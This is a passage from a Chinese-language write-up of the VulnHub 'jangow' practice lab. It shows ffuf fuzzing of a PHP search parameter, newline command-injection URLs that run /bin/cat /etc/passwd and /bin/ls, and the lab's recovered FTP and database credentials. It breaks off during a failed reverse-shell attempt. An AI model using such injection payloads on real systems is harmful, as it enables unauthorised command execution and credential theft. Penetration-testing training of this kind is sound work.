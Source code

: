 用户名`jangow01`，密码`abygurl69`

尝试打开`wordpress`，发现并非`cms`，只是目录名称为这个，其内容就是`site`中的默认界面内容

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\8.jpg)

# 漏洞利用

测试之前有的`php`文件，参数已经给出，测试有无注入点，如路径遍历等

这里可以使用`ffuf`或者`burp`等其他工具，执行发现一个可用语句

```shell
ffuf -c -w /usr/share/wordlists/wfuzz/Injections/All_attack.txt -u http://192.168.10.9/site/busque.php?buscar=FUZZ -fs 1
#-fs 1 是把原本界面大小1，直接过滤掉
```

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\9.jpg)

```shell
http://192.168.10.9/site/busque.php?buscar=%0a/bin/cat%20/etc/passwd
```

复制这个语句，通过浏览器访问，发现一个用户，也就是前面隐藏文件中的用户名`jangow01`和密码`abygurl69`

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\10.jpg)

而且，可以看到这里是通过调用`cat`来查看的，是否表示这里可以进行命令执行，直接更换为`ls`，测试发现，成了！

```shell
http://192.168.10.9/site/busque.php?buscar=%0a/bin/ls
```

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\11.jpg)

查看后，发现其代码调用`system`函数

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\12.jpg)

这里虽然可以进行很多，不过既然给出了`ftp`，总要用一下，以上面获取的用户名和密码进行登录，如果存在这样的情况。用户名`jangow01`，密码`abygurl69`

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\13.jpg)

发现这就是网站的一些文件，可以从这里查看，前面的都差不多发现了，在`wordpress`处发现一个`config.php`文件，是连接数据库的

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\14.jpg)

用户名`desafio02`和密码`abygurl69`，这里打算再以这个凭证登录的，发现失败

# 反弹shell

那么回到网站上，尝试通过`php`文件获取一个反弹`shell`，不过在构造多条语句无果后，我测试了一下网络连通，发现`kali`可以连通靶机，但是反过来不行，导致流量无法出来。可能是这个`php`文件中还有其他的限制等情况
